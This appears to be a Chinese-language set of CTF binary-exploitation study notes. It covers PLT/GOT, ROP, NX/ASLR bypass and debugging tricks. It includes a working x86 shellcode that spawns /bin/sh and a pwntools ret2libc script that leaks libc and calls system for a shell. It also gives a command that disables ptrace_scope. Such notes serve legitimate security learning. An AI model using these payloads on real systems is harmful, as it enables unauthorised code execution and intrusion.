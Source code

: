 ##  一些资源
```
http://shell-storm.org
http://shell-storm.org/shellcode/
https://www.exploit-db.com
https://www.exploit-db.com/shellcode/
```

## 干掉alarm
很多题目都有alarm函数防止Dos攻击，超过指定的时候后程序就会退出，不便于debug，通常有几种干掉alarm的方法：
- vim: `%s/alarm/isnan/g`
- `sed-i s/alarm/isnan/g [elf name]`
- LD_PRELOAD
```c
#include<stdio.h>
unsigned int alarm(unsigned int seconds){
    printf("%d",seconds);
}
```
编译：`gcc -shared [-fPIE/-fPIC] [-m32] hook.c -o hook.so`  
运行：`LD_PRELOAD=./hook.so ./pwnme`

## plt got .plt.got
![plt->got](basic/2018-11-15-23-44-54.png)
![plt &got](basic/2018-11-15-23-25-29.png)
plt 指向got,采用延时绑定。printf函数中，0x404c010实际内容是下一条指令`push 0`,
而plt.got是已经绑定的， puts函数的0x804bff4是指向实际puts函数的

## shellcode

```x86asm
jmp sh
run:
  pop ebx
  mov BYTE[ebx+7],0 ;append 0 to /bin/sh
  xor eax,eax
  mov al,11
  xor ecx,ecx
  xor edx,edx
  int 0x80
sh:
  call run
  db "/bin/sh"
```

linux 下
- 使用`nasm [sourcecode] -o [target] -felf32`编译一个汇编文件 
- 使用`objcopy -O binary [source.out] [target]`提取 shellcode的。
- 使用`xxd -i [target]`将上述shellcode转为char数组
相关工具
- https://github.com/Neetx/Shellcode-Extractor
从elf提取shellcode
## ROP
 1. ROPgadget 得到代码片断
 2. cd80c3 就是int0x80;ret,s使用`ROPgadget --binary {binaryname} --opcode cd80c3`来寻找
 3. 动态链接找不到 int 0x80,需要构造rop
```py
from pwn import *
r=process('ret2lib')

puts_got_plt = 0x804a01c
puts_offset =0x00069930

r.recvuntil(':')
r.sendline(str(puts_got_plt))
r.recvuntil(': ')
libc_base=int(r.recvline(keepends=False),16)-puts_offset # get libc base address
print hex(libc_base)
gets_off=0x000690d0             # objdump -D libc |grep gets@
system_off= 0x0003e8f0          # objdump -D libc |grep system@
gets = libc_base+gets_off
system = libc_base+system_off
buf=0x804b000 -30               # cat /proc/702/maps to get writable address 
rop=[
        gets,
        system,
        buf,
        buf
        ]
r.recvuntil(":")
r.sendline('a'*60+flat(rop))
r.sendline("/bin/sh\x00")
r.interactive()

```

### 寄存器赋值
构造栈结构
```
  *(pop eax ;ret)
  3
```
将eax赋值为3
### 栈转移
寻找 leave;ret;指令，然后更改ebp的值即可
leave= mov esp,ebp,pop ebp;
## 漏洞挖掘方法
* 现成CMS注意DIFF
* 根据漏洞PATCH
* 根据漏洞写出EXP，发动攻击 
## 保护
NX:DEP 栈不可执行，可执行不可写 ROP绕过
ALSR: 把每次载入的函数地址随机化，利用puts/printf 等leak出libc的实际地址

## strace
strace可以输出系统调用，应对一些打开就退出的情况，可以使用`strace -e trace=read,write [elf name]`来追踪特定的系统调用

## gdb attach 失败
```sh
echo 0 |sudo tee /proc/sys/kernel/yama/ptrace_scope
```
## LD_PRELOAD、 LD_SHOW_AUXV
- LD_PRELOAD可以指定一个或多个共享库文件，linux加载器`ld-linux`会先于glibc加载LD_PRELOAD指定的库。  
用途：HOOK掉alarm。  
为了避免用于恶意攻击，在ruid !=euid的情况下加载器是不会使用LD_PRELOAD 进行预加载。
- `LD_SHOW_AUXV=1 ./pwnme` 用于调试